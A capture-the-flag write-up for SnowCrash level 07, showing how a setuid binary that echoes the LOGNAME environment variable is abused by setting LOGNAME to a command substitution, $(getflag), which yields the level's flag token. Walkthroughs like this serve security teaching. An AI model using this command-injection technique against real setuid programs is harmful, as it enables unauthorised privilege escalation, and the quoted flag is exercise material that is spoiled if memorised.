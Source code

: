 # Level 07

## Vulnerability
Privilege escalation - environment variables

## Context

```
level07@SnowCrash:~$  ls -l 
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

## Solution

Let's see what's in the level07 executable file. 
```
level07@SnowCrash:~$ strings level07
[...]
LOGNAME
/bin/echo %s
```
What  is [LOGNAME](https://unix.stackexchange.com/questions/268378/difference-between-logname-and-logname)? It's "an env variable that contains the user that executes the current shell process." There's also a call to echo here, 
Let's confirm who LOGNAME is, and see if we can change it. 
```
level07@SnowCrash:~$ echo $LOGNAME
level07
level07@SnowCrash:~$ LOGNAME=$"Harry Potter"
level07@SnowCrash:~$ echo $LOGNAME
Harry Potter
```
Hmm... Perhaps we can exploit LOGNAME to launch getflag. 
```
level07@SnowCrash:~$ LOGNAME=$\(getflag\)
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
Success!
